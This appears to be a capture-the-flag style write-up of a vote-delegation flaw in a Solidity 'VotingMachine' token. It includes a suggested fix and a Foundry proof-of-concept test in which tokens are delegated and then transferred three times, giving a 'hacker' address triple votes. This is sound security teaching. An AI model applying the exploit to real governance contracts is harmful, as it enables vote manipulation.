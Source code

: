 # Vulnerability:
    The function `delegate()` is simply based on caller's balance, if Alice does `delegate` and then transfer the balance to Bob, her previous delegation will still be in effect. 
    A fix could be remove the previous delegation on transfering, or simply disable token transfering at voting moment.


# POC 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.12;

import "forge-std/Test.sol";
import "../src/VotingMachine.sol";

contract ExploitVotingMachine is Test {
	VoteToken vToken;
	address public owner = address(0);
	address public hacker =address(1337);

	address public alice= address(1);
	address public bob = address(2);
	address public carl = address(3);

	function setUp() public {
		vm.startPrank(owner);
		vToken = new VoteToken();
		vToken.mint(alice, 1000);
		vm.stopPrank();
	}

	function testExploit() public {
vm.startPrank(alice);
		// soluiton

		// 1. Alice delegate to hacker and send balance to Bob
		vToken.delegate(hacker);
		vToken.transfer(bob, 1000);
vm.stopPrank();

vm.startPrank(bob);
		// 2. Bob delegate to hacker and send balance to Carl
		vToken.delegate(hacker);
		vToken.transfer(carl, 1000);
vm.stopPrank();

vm.startPrank(carl);
		// 3. Carl delegate to hacker and send balance to hacker
		vToken.delegate(hacker);
		vToken.transfer(hacker, 1000);
vm.stopPrank();

		uint hacker_vote = vToken.getVotes(hacker);
		console.log("Vote Count of Hacker before attack: %s ", hacker_vote);

		uint hacker_balance= vToken.balanceOf(hacker);
		console.log("Hacker's vToken after the attack: %s: ", hacker_balance);

		assertEq(hacker_vote , 3000);
		assertEq(hacker_balance, 1000);
	}
}

```
